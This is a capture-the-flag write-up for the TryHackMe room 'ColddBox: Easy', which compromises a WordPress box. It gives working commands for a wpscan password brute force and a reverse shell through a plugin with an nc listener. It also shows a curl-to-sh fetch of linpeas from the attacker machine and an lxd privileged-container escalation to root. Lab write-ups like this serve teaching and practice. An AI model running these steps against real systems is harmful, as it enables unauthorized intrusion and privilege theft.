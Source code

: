 # > ColddBox: Easy
<https://tryhackme.com/room/colddboxeasy>
-------------------------
It is a cool box (literally). So lets start some Hacking …
So lets start with some nmap scan to enumerate which all ports are open.
```bash
# nmap -T4 -sV -A target > nmap_scan.txt 

```
![1](https://github.com/nairitya03/CTF-WriteUps/blob/main/THM/C0ldd_BOX/Screenshots/1.png)

So port 80 is open that I already knew by opening the ip in web browser.
Since it was a web page I began directory search to see is there any broken
access control.
```bash
# gobuster dirb -u target:80 --wordlist /usr/share/wordlists/dirb/small.txt -e -o dir.txt 
```
![2](https://github.com/nairitya03/CTF-WriteUps/blob/main/THM/C0ldd_BOX/Screenshots/2.png)

There is a ‘/hidden’ directory on the target that is accessible and gave
potential users on the target.

![3](https://github.com/nairitya03/CTF-WriteUps/blob/main/THM/C0ldd_BOX/Screenshots/3.png)

And since web page is made on wordpress and there is a login page, great
option to bruteforce wordpress login is using wpscan.

```bash
$ wpscan --url http://target/wp-login.php -e u -P /usr/share/wordlist/rockyou.txt 

```
![4](https://github.com/nairitya03/CTF-WriteUps/blob/main/THM/C0ldd_BOX/Screenshots/4.png)

Bingo!!! we have a password for c0ldd user. After login we have an
admin dashboard.

Lest get a reverse shell on the target using WP plugin. I found this simple
reverse shell script on
<https://www.sevenlayers.com/index.php/179-wordpress-plugin-reverse-she
ll>.

![5](https://github.com/nairitya03/CTF-WriteUps/blob/main/THM/C0ldd_BOX/Screenshots/5.png)

I started a netcat listener on my machine on port 8000 
```bash # nc -lvnp 8000 ```
and got a reverse shell by activating our plugin and found that www-data
user have very less permissions thus I enumerated the target using
[linpeas.sh]( https://github.com/carlospolop/privilege-escalation-awesome-scripts-suit
e/tree/master/linPEAS ).Download the linpeas.sh file form Github on your
machine,cd to the downloaded directory and start a simple python server on
your machine 
```bash # python3 -m http.server 1234 ``` 
and on target run it using
```bash $ curl http://<attackbox_ip>:1234/linpeas.sh | sh ```
This will directly
run the shell script on the target machine.

![6](https://github.com/nairitya03/CTF-WriteUps/blob/main/THM/C0ldd_BOX/Screenshots/6.png)

This gave away wp-config.php file that contained password of user _c0ldd_.
To su to _c0ldd_ user we need a stable shell, stablizing shell by this great
one-liner 
```bash $ pyhton3 -c ‘import pty;pty.spawn(“/bin/bash”)  $ su c0ldd ```
and use password _cybersecurity_ to get access. Now cat the user.txt flag in
/home/c0ldd directory 
```bash $ cat /home/c0ldd/user.txt ```

![7](https://github.com/nairitya03/CTF-WriteUps/blob/main/THM/C0ldd_BOX/Screenshots/7.png)

Hurray!! got the user flag.

##### Now lets get root access.

Linpeas enumeration also gave potential services, users that could be
exploited. Luckly lxd (container service) is present and accessible by _c0ldd_ user.

![8](https://github.com/nairitya03/CTF-WriteUps/blob/main/THM/C0ldd_BOX/Screenshots/8.png)

Lets exploit this service, Download the vulnerable container image using 
[alpine for lxd](https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml)
cd to download dir and start http server and transfer the file to target machine
using wget.

> Add the image :
```bash $ lxc image import lxd.tar.xz rootfs.squashfs --alias alpine
$ lxc image list -- You can see your new imported image
```
> Create a container and add root path
```bash
$ lxc init alpine privesc -c security.privileged=true
$ lxc list 
$ lxc config device add privesc host-root disk source=/ path=/mnt/root
recursive=true
```
> Execute the container:
```bash
$ lxc start privesc
$ lxc exec privesc /bin/sh
```

As this container is mounted with /root directory we can access root.txt
inside it 
```bash $ cat /mnt/root/root.txt ```

![9](https://github.com/nairitya03/CTF-WriteUps/blob/main/THM/C0ldd_BOX/Screenshots/9.png)

> With that the we rooted the box.
